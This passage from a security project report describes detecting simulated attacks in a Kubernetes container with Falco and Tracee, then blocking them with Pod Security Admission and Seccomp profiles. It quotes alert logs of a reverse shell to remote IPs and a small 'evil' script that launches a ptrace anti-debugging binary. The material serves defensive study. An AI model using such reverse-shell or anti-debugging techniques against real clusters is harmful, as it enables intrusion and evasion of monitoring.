Priority:       Notice
Rule:           Redirect STDOUT/STDIN to Network Connection in Container
Source:         syscall
Container:      k8s_zipapp_zipapp-5485c4dc48-cv67x
Image:          zipapp:latest

Process:        bash         
Command Line:   bash evil /tmp/2d59ed5f6d796e23f73d443b0623144aa33b9174/zi0OIqMT
Executed Path:  /bin/bash
User:           root (UID 0)
Parent:         bash
Event Type:     dup2 (file descriptor redirection)

Network Connection:
  Source IP:    10.244.1.93
  Destination IP: 18.158.58.205
  Protocol:     TCP (IPv4)
  Source Port:  52966
  Destination Port: 19023
\end{verbatim}
\textbf{Falco} generated a \texttt{Notice}-level alert through the rule \texttt{Redirect STDOUT/STDIN to Network Connection in Container}. It detected a \texttt{bash} process running inside a container. The log also provided network information, including source and destination IP addresses and ports.\\
Tracee detected an event called \texttt{stdio\_over\_socket},triggered by the \texttt{socket\_dup} rule:
\begin{verbatim}
Host:           zipapp-5485c4dc
Process:
  Name:         bash
  User:         root (UID 0)
  Syscall:      dup
  Return Value: 0

Event:          stdio_over_socket
Trigger:        socket_dup
  → oldfd:      2 (stderr)
  → newfd:      0 (stdin)
  → remote_addr: 3.67.161.133:19023

Socket Details:
  Remote IP:    3.67.161.133
  Remote Port:  19023
  File Descriptor: 0

MITRE ATT&CK:
  - Signature Name: Process standard input/output over socket detected
  - Severity:    High (3/5)
\end{verbatim}
Tracee identified the redirection of standard I/O over a network socket and reported a remote connection to an IP address on a specific port. This malicious behavior was classified as high severity.


\subsection{\texttt{ptrace} system call}
The \texttt{ptrace} system call is commonly used for debugging or, in this case, as an anti-debugging technique which is used to detect and block debugging and analysis tools. A process can call \texttt{ptrace} in order to prevent other debuggers from attaching to it later. The following is the content of the \texttt{evil} script used in this scenario:
\begin{verbatim}
#!/bin/bash
./ptrace
\end{verbatim}
In this case we added a little executable in our zip package that is called \texttt{ptrace} and emulates a possible malicious script using this technique. It is executed from the \texttt{evil} script.


\subsubsection{Detection Results}
Both \textbf{Falco} and \textbf{Tracee} successfully identified this behavior, though with different levels of detail.
Falco generated the following alert:
\begin{verbatim}

Priority:       Notice
Rule:           PTRACE anti-debug attempt
Source:         syscall

Container:
  Name:         k8s_zipapp_zipapp-5485c4dc48-cv67x
  Image:        zipapp:latest

Process:
  Name:         ptrace
  Command Line: ptrace
  Executed Path:/tmp/2d59ed5f6d796e23f73d443b0623144aa33b9174/ptrace
  Parent:       bash
  Parent Command Line: bash evil /tmp/2d59ed5f6d796e23f73d443b0623144aa33b9174/zi0r7Tx0
  User:         root (UID 0)
  Terminal:     0

Event Type:     ptrace
\end{verbatim}
Falco triggered a \texttt{Notice}-level alert using the rule \texttt{PTRACE anti-debug attempt}. Falco's log also includes command-line context that helps reconstruct the attack chain. \\
Tracee generated the following log:
\begin{verbatim}
Host:           zipapp-5879f489
Container ID:   3386deda87643e6b27858025736011899bb1420b420b93387cd808042c16e884

Process:
  Name:         ptrace
  User:         root (UID 0)
  Syscall:      ptrace (PTRACE_TRACEME)
  Return Value: 0

Event:          anti_debugging
Triggered By:
  ptrace(request=0 [PTRACE_TRACEME], pid=0, addr=0, data=0)

Detection Policy: default-policy
MITRE ATT&CK:
  - Signature Name: Anti-Debugging detected
  - Severity:    Low (1/5)
\end{verbatim}
Tracee classified the event as an \texttt{anti\_debugging} attempt, identifying the use of the \texttt{ptrace} syscall with the \texttt{PTRACE\_TRACEME} request.


\subsection{Timeout error}
Another important observation is that during the simulation of the command injection and reverse shell attacks, a timeout error appeared, as shown in the figure below, indicating that malicious processes were running in the background. 
In contrast, the attack involving the use of \texttt{ptrace} did not produce a timeout error. The \texttt{ptrace} syscall was executed quickly and completed without leaving a blocking process. 

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/timeout.png}
    \caption{Timeout error}
    \label{fig:timeout}
\end{figure}
\subsection{Handler Detection Logs}
To facilitate detection of suspicious activities, a labeling mechanism was implemented in the handler component, which tags the deployment involved in the attack scenario when an alert is triggered.

\noindent Below are examples of logs recorded by the handler:

\noindent \textbf{Falco Handler Output:}
\begin{verbatim}
deployment.apps/zipapp labeled
[2025-05-28 08:43:44,445] INFO in handler: [+] Labeled deployment zipapp in default
\end{verbatim}

\noindent \textbf{Tracee Handler Output:}
\begin{verbatim}
deployment.apps/zipapp labeled
[2025-05-28 08:53:28,742] INFO in handler: [+] Labeled deployment zipapp in default
\end{verbatim}

The logs indicate that both Tracee and Falco detected malicious behavior inside the \texttt{zipapp} deployment and responded by labeling the associated Kubernetes resources. This mechanism can later be used to trigger automated responses, such as isolating the pod or notifying a security dashboard.


\section{Countermeasures and Their Usage}
\label{sec:countermeaseres}

To mitigate the attacks previously shown we have to apply some preventive countermeasures. It can be useful to use the handler that is stopping some pods when a suspicious behavior is detected, but our primary goal is to be sure the attacks cannot occur in the first place. We analyzed two tools that are provided with Kubernetes, so there is no need to install anything. They are \acrlong{psa} and Seccomp. The first one is used to control pods when they are created, the other one is controlling the system calls made by a pod. It is worth noting that we know that there are also other tools such as Kyverno (YAML based) and Gatekeeper (Rego based) that control pods on admission in a similar way to \ac{psa} but with more granular policies and without the need of a dedicated namespace. They work in the same way as Falco and Tracee, deployed as deployments in the cluster with permission on that. Let's now focus on the tools that we actually used.


\subsection{Pod Security Admission}
\Acrlong{psa} is an admission controller that is provided with Kubernetes. It has been introduced in Kubernetes v1.22 and it enforces predefined Pod Security Standards at namespace level. The three namespaces (Privileged, Baseline and Restricted) are applying an increasing level of security and they define which configurations are allowed for a pod to enter. The requirements are the following:
\begin{itemize}
    \item Privileged: this namespace has no restrictions and allows all type of privilege and behavior;
    \item Baseline: to enter here we want no privilege containers, no host namespaces, no unsafe volume types, no sensitive capabilities and no Seccomp disabled;
    \item Restricted: for this last namespace requires all the baseline adding no root users, a read-only file system, drop all capabilities, mandatory to set a Seccomp profile and not allow privilege escalation.
\end{itemize}
\Ac{psa} acts when pod resources are created or updated, rejecting those that violate policies assigned for that namespace.

Since \ac{psa} is native to Kubernetes, it is simpler to manage than external tools like Kyverno or Gatekeeper when we don't want to introduce third-party components in our cluster. Policies are applied using a label in the namespace that specifies the enforcement level:

e.g. \texttt{pod-security.kubernetes.io/enforce: restricted}

\noindent Other modes like audit and warn (replacing enforce) are non-blocking and used only for monitoring.

\Ac{psa} is limited to the pod-level and provides a lightweight mechanism to avoid misconfigured workloads in the cluster. This can be considered a first line defense because it ensures that deployed workloads meet a minimum security threshold without additional tools.


\subsubsection{Application of PSA}
\Ac{psa} policies have been applied in our project creating a new namespace named \texttt{secured}. We added the specific label that is needed to make that namespace a Restricted one.

When the namespace is created we have to edit the deployment for the application. We need to use a non-root user in the image, use the default Seccomp policy, remove capabilities and disallow privilege escalation. Finally the pod is deployed in the new \texttt{secured} namespace. If any of these options is not set, it will result in the pod not being deployed and causing an error in startup. All these actions are already set in \texttt{scenario/manifests/zipapp-deployment-psa.yaml}. The scenario secured with \ac{psa} can be deployed with:

\texttt{bash scenario/zipapp-psa-start.sh}

\noindent This will protect from the attack that we called "Dropped Executable"; others are still working and require other countermeasures that we will explain in a while.


\subsubsection{Effects on Dropped Executable Attack}
After deploying this new updated application we can notice that everything is still working as before if we try to perform any ordinary action on the website. When the "Dropped Executable" attack is performed the website shows "Internal Server Error" like shown in \autoref{fig:error} instead of a timeout message (\autoref{fig:timeout}), indicating that certain types of error happened during execution of the \texttt{zip} command. This is because the limited permission given in this new container are blocking commands like \texttt{apt update} or installation of new tools to download binaries from the Internet. If no tools to download like \texttt{wget} or \texttt{curl} are included in the base image this is enough to block this kind of attack. Finally if we try to log Falco using:

\texttt{bash falco-conf/falco-logs.sh}

\noindent or Trace with:

\texttt{bash tracee-conf/tracee-logs.sh}

\noindent or their respective event handler we will notice that there is no alert about the event that was triggered before. This means that the attack is no more performed thanks to the \ac{psa} countermeasure.

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.70\linewidth]{images/error.png}}
    \caption{Screen of the WebApp in Error When the Attack is Blocked}
    \label{fig:error}
\end{figure}


\subsection{Seccomp}
Seccomp (short for Secure Computing Mode) is a feature that can be found in general in the Linux kernel. It is not specific of Kubernetes environment but it is very useful if applied to it. It is a lightweight mechanism used to reduce kernel attack surface within a container. A Seccomp profile is a JSON or YAML file where we can define which system calls are allowed or not. When a system call is not allowed we can return an error or kill the process that generated it. This mechanism is useful because some attacks in particular leverage on specific system calls which are rarely used in normal applications.

Seccomp in Kubernetes can be applied using the "securityContext.seccompProfile" property in pod specification through YAML file. With "RunTimeDefualt" we are using the default profile provided with the container. Otherwise we can create a custom one, like we did to contain simulated attacks about Reverse Shell and Ptrace Execution. In general, usage of Seccomp with very restricted policies is reserved to expert users, because it can result in problems if the wrong system call is blocked. We used it in a very basic way to demonstrate its working mechanism and to block attacks based on a single system call. Blocking attacks like the one about the "Dropped Executable" can become very risky and complex because deep knowledge of application behavior is required.

Seccomp can become also part of \ac{psa} because, as cited before, we can have some namespaces where a policy is required. This Linux kernel tool is very useful to implement the least privilege mechanism at the syscall level, to contain also potential compromised containers.


\subsubsection{Application of Seccomp}
We applied Seccomp to the reference scenario adding a custom profile. We prepared a pair of profiles that can be applied in every namespace (even the default one) and without the need of \ac{psa}.

First of all we need to copy the Seccomp profile needed inside Minikube to be loaded in the K8s application container. It is added to the YAML configuration of the deployment. Now we can start the deployment and the service. In particular we have a policy that allows everything except the \texttt{connect} syscall that is used to establish a network connection to block "Reverse Shell" attack and another one that blocks \texttt{ptrace} system call for the "Ptrace Execution" attack. They can be found in the folder \texttt{scenario/sec-profiles/}. When these are executed the kernel returns an error. The commands for deployment are:

\texttt{bash scenario/zipapp-seccomp-ptrace-start.sh}

\noindent for the one about Ptrace and:

\texttt{bash scenario/zipapp-seccomp-revshell-start.sh}

\noindent for the one about Reverse Shell. Note that if any malicious process performs an attacks without these syscalls it will succeed without any problem, but it will noticed by Falco or Tracee.


\subsubsection{Effects on Reverse Shell and Ptrace Attacks}
When these countermeasures are applied, like before everything is working properly and the application is behaving as expected. When we run both the attacks, we get as a response the "Internal Server Error" from \autoref{fig:error}. The error given by Seccomp is propagated back to the \texttt{zip} command that is executing the malicious executable. This results in incomplete action and no files will be zipped for download. Checking logs of Falco:

\texttt{bash falco-conf/falco-logs.sh}

\noindent or Trace with:

\texttt{bash tracee-conf/tracee-logs.sh}

\noindent or their respective event handler we will notice that there is no alert about the event that was triggered before. This means that the attack is no more performed thanks to the Seccomp countermeasure.


\section{Conclusions}
\label{sec:concl}

In conclusion, setting up runtime security in Kubernetes with Falco and Tracee proved to be effective. We used these tools in a local Minikube Kubernetes setup, showing that they can detect malicious behavior, such as command injection attempts, reverse shells and unexpected binary runs, using eBPF-based methods. Both the tools showed strong capabilities in detecting malicious behaviors. Using both tools together enables a better understanding of the runtime security analysis because in their rules they have a very different classification of the events. For example the Dropped Executable has a Critical level in Falco and Medium in Tracee. On the contrary, the Reverse Shell has a Notice level in Falco and High in Tracee.

